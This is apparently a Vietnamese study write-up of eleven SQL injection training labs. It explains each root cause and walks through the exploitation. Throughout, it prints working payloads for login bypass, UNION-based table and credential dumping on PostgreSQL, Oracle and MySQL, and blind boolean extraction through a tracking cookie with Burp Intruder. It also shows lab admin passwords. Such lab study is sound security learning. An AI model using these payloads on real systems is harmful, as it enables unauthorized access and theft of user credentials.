# SQL injection

# SQL injection

# Lab1: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

Trong bài lab này có chứa vul SQL injection tại filter?category=…

## **Root cause:**

Máy chủ không xử lý và kiểm tra đầu vào của người dùng mà lấy trực tiếp giá trị từ tham số URL và chèn nó vào SQL query.

## **Cách khai thác:**

Để hoàn thành lab này, ta cần làm cho máy chủ hiển thị 1 hoặc nhiều product chưa released

Khi ta chọn sản phẩm “Gifts” thì máy chủ sẽ thực hiện 1 SQL query như sau:



Nếu trên URL ta gõ [… filter?category=Gifts’-- ] thì SQL query là:

SELECT * FROM products WHERE category = 'Gifts'-- AND released = 1

- Chọn tất cả products trong phân loại Gifts mà bỏ qua điều kiện AND

Nếu trên URL ta gõ [… filter?category=Gifts’ OR 1=1-- ] thì SQL query là:

SELECT * FROM products WHERE category = 'Gifts ' OR 1=1-- AND released = 1

- Chọn tất cả products trong của tất cả phân loại mà bỏ qua điều kiện WHERE (vì luôn đúng 1=1) và AND

SQL query chỉ còn: SELECT * FROM products



# Lab2: SQL injection vulnerability allowing login bypass

Trong bài lab này có chứa vul SQL injection tại Login function

## **Root cause:**

Máy chủ không xử lý và kiểm tra đầu vào của người dùng mà lấy trực tiếp giá trị từ login function và chèn nó vào SQL query.

## **Cách khai thác:**

Khi ta đăng nhập 1 tài khoản nào đó thì máy chủ sẽ thực hiện SQL query:



Nếu ta nhập [administrator’-- ] và phần username và pass bất kỳ thì SQL query sẽ là:

SELECT * FROM users WHERE username = 'administrator'--' AND password = '123'

Có thể thấy lúc này điều kiện AND sẽ bị bỏ qua và ta đã có quyền admin



# SQL injection UNION attacks

# Lab3: SQL injection UNION attack, determining the number of columns returned by the query

Trong lab này ta cần xác định được số cột được trả về từ SQL query

## **Root cause:**

Máy chủ xử lý và kiểm tra đầu vào của người dùng một cách không an toàn

## **Cách khai thác:**

Ta có thể sử dụng mệnh đề ORDER BY để xác định xem có bao nhiêu cột trong table ví dụ ta thử cho ORDER BY 5 mà kết quả là:



Thì có nghĩa là số cột sẽ < 5, sau khi thử vài lần thì ta xác định có 3 cột

Tiếp theo ta sẽ dùng toán tử (operator) UNION để hoàn thành bài lab





# Cách hoạt động của UNION:

Số lượng của 2 table khi thực hiện UNION phải bằng nhau

Kiểu dữ liệu của mỗi cột phải tương thích giữa các truy vấn riêng lẻ



# Lab4: SQL injection UNION attack, finding a column containing text

Trong lab này ta sẽ tìm xem cột nào trong table có thể chứa giá trị string thông qua SQLi vul trong product category filter dựa vào kinh nghiệm từ lab3 trước đó

## **Root cause:**

Máy chủ xử lý và kiểm tra đầu vào của người dùng một cách không an toàn

## **Cách khai thác:**

Xác định số cột trong table bằng ORDER BY. Sau vài lần thử ta xác định được table có 3 cột



Trong lab này ta cần để database hiển thị “O8GIQ8”, sau khi thử:

'O8GIQ8',NULL,NULL

NULL,'O8GIQ8',NULL

NULL,NULL'O8GIQ8'

Thì ta có payload hợp lệ là ' UNION SELECT NULL, 'O8GIQ8',NULL--, vậy cột thứ 2 có thể chứa string

# Lab5: SQL injection UNION attack, retrieving data from other tables

Trong lab này ta sẽ dùng toán tử UNION lấy password của administrator dựa vào những kinh nghiệm từ các lab trước đó

## **Root cause:**

Máy chủ xử lý và kiểm tra đầu vào của người dùng một cách không an toàn

## **Cách khai thác:**

Xác định số cột trong table: có 2 cột



Dùng UNION ta biêt được cả 2 cột đều có thể chứa kiểu dữ liệu string



Như vậy là ta đã có thể lấy username-password thông SQL query



Đăng nhập vào tk admin: administrator---8vudh7n1i7vi3w24mop3



# Lab6: SQL injection UNION attack, retrieving multiple values in a single column

Trong lab này ta sẽ lấy giá trị từ nhiều cột và gọp lại thành 1 cột duy nhất

## **Root cause:**

Máy chủ xử lý và kiểm tra đầu vào của người dùng một cách không an toàn

## **Cách khai thác:**

Xác định số cột trong table: có 2 cột

Dùng UNION ta biêt được cả 2 cột đều có thể chứa kiểu dữ liệu string



Sau khi test ta thấy rằng chỉ có cột thứ 2 mới có thể chứa được string, và cột thứ 1 sẽ báo lỗi, như vậy nếu muốn database lấy ra thông tin dạng username-password thì ta có thể gộp các 2 cột đó lại với nhau



Sau khi thử qua các syntax của database version thì ta có thể dùng dấu “||” để gộp 2 cột username-password
SQL query: ' UNION SELECT NULL,username|| '---' ||password FROM users--



Đăng nhập tk admin: administrator---3bcc8fx31xt6y6tpt1zv



# Examining the database in SQL injection attacks

# Lab7: SQL injection attack, querying the database type and version on Oracle

Sau các bài lab trên ta thấy được rằng việc tìm ra được database type và version sẽ rất hữu ít cho việc sử dụng syntax đúng. Trong lab này lấy ra thông tin của database Oracle thông qua SQLi tại product category filter

## **Root cause:**

Máy chủ xử lý và kiểm tra đầu vào của người dùng một cách không an toàn

## **Cách khai thác:**

Xác định số cột bằng mệnh đề ORDER BY: có 2 cột
Trong Oracle tùy phiên bản khi dùng SELECT thì bắt buộc phải có FROM



DUAL trong Oracle là 1 table đặc biết chỉ có 1 cột 1 hàng dùng để hỗ trợ các truy vấn không liên quan đến bảng thực tế
Ta test được 2 cột đều có thể chứa string, sau đó lấy ra version của oracle



SQL query: ' UNION SELECT NULL,banner FROM v$version—

# Lab8: SQL injection attack, querying the database type and version on MySQL and Microsoft

Lab này cũng tương tự lab 7 nhưng lấy thông tin của database MySQL và Microsoft

## **Root cause:**

Máy chủ xử lý và kiểm tra đầu vào của người dùng một cách không an toàn

## **Cách khai thác:**

Xác định số cột bằng mệnh đề ORDER BY: có 2 cột
Sau khi test bằng UNION thì chỉ có cột 1 có thể chứa string
Lưu ý comment trong MySQL phải cách ra



SQL query: ' UNION SELECT '8.0.39-0ubuntu0.20.04.1',NULL-- -



# Lab9: SQL injection attack, listing the database contents on non-Oracle databases

Trong lab này ta cần phải tìm được tên của table có chứa cột username và password thông qua information_schema

information_schema giúp cung cấp các thông tin của database đó

ví dụ:

information_schema.tables: cung cấp tên tất cả table có trong database

information_schema.columns: cung cấp tên cột trong 1 table nhất định hoặc trong database

## **Root cause:**

Máy chủ xử lý và kiểm tra đầu vào của người dùng một cách không an toàn

## **Cách khai thác:**

Xác định số cột bằng mệnh đề ORDER BY: có 2 cột
Sau khi test bằng UNION thì cả 2 cột đều có thể chứa string
List tất cả table có trong database bằng query:
' UNION SELECT NULL,table_name FROM information_schema.tables--



Vì số table quá nhiều và có quá nhiều table được đặt là user nên ta sẽ thử kiểm tra xem database version hiện tại được sử dụng và lấy ra các table user có liên quan nhất



Sau khi test ta được kết quả database hiện tại là **PostgreSQL**

với query: ' UNION SELECT version(),NULL--



Sau khi tra cứu thông tin thì ta có thể lấy ra các table liên quan đến PostgreSQL bằng cách thêm table_schema = current_schema()

Query: ' UNION SELECT NULL,table_name FROM information_schema.tables WHERE table_schema = current_schema()--



Kết quả lấy ra bây giờ chỉ còn 2 table liên quan nhất

Để lấy các cột từ table **users_gukpvx** ta dùng query: ' UNION SELECT NULL,column_name FROM information_schema.columns WHERE table_name ='users_gukpvx'--



Lấy thông tin username và password:

Query: ' UNION SELECT username_xwsfip,password_wxzacw FROM users_gukpvx--



Đăng nhập tk admin:



# Lab10: SQL injection attack, listing the database contents on Oracle

Trong lab này cũng tương tự lab 9 nhưng bây giời database là Oracle

## **Root cause:**

Máy chủ xử lý và kiểm tra đầu vào của người dùng một cách không an toàn

## **Cách khai thác:**

Xác định số cột bằng mệnh đề ORDER BY: có 2 cột
Sau khi test bằng UNION thì cả 2 cột đều có thể chứa string
List tất cả table có trong database bằng query:

' UNION SELECT NULL,table_name FROM all_tables—



Lab này số lượng table tên là user khá ít nên ta có thể thử từ tử



Table khả nghi nhất là: USERS_VREMYP

Lấy tất cả cột trong table USERS_VREMYP bằng query:

' UNION SELECT NULL,column_name FROM all_tab_columns WHERE table_name= USERS_VREMYP—



Lấy thông tin username, password bằng query:

' UNION SELECT USERNAME_FBONZN,PASSWORD_FHHDNB FROM USERS_VREMYP--



Đăng nhập tk admin:



# Blind SQL injection

# Lab11: Blind SQL injection with conditional responses

Trong lab này ta sẽ Blind SQLi tại phần tracking cookie. Không có SQL query nào được hiển thị lại mà sẽ dựa vào thông báo Welcome back! trên web để có thể đoán ra password của administrator

## **Root cause:**

Khi có cookie người dùng, máy chủ sẽ thực hiện câu truy vân như sau:





Máy chủ không kiểm tra hoặc làm sạch (sanitize) dữ liệu đầu vào từ tham số TrackingId trước khi đưa vào truy vấn SQL. Không có cơ chế loại bỏ hoặc escape các ký tự nguy hiểm (ví dụ: ', ;, --) trong đầu vào.

## **Cách khai thác:**

Test xem TrackingId có kích hoạt conditional responses hay không





Với **Cookie: TrackingId=FQqRiVYlqDzEtqS8' AND '1'='1** thì ta thấy rằng web page có phản hồi welcome back!

Tiếp theo ta sẽ check xem có user nào tên 'administrator' trong database không bằng query:

' AND (SELECT 'a' FROM users WHERE username='administrator')='a

(Nếu có tồn tại 'administrator' thì kết quả trong () sẽ là ‘a’ mà ‘a’=’a’ 🡪 True nên sẽ có phản hồi Welcome back!



Kiểm tra độ dài password của user admin:

' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>1)='a

Có thể dùng Burp Intruder:

+ Add $$ vào điều kiện LENGTH(password)>1, ta sẽ thử lần lượt >2,>3,..

+Tạo 1 payload number list giả sử từ 1 -> 30



Khi attack xong thì ta biết được độ dài của password sẽ là 20 ký tự



Khi đã biết password length thì ta có thể check từng vị trí ký tự xem có bằng 1 ký tự nhất định hay không bằng query:

' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='a

Giải thích: lấy ra 1 ký tự trong pass bằng SUBSTRING password tại vị trí 1, step=1 từ user admin và kiểm tra tất cả đk đó có = ‘a’ hay không. Giải sử nếu ký tự đầu của password là ‘a’ thì web page sẽ có phản hồi Welcome back!.

Theo bài lab thì password sẽ là lowercase and alphanumeric characters. Nếu như check tuần tự thì sẽ khoảng 20 * (26+10) lần :D

Vì vậy ta sẽ dùng dạng attack **cluster bomb** trong Burp Intruder cho phép ta có thể Add $$ vào 2 chỗ và chọn 2 payload khác nhau

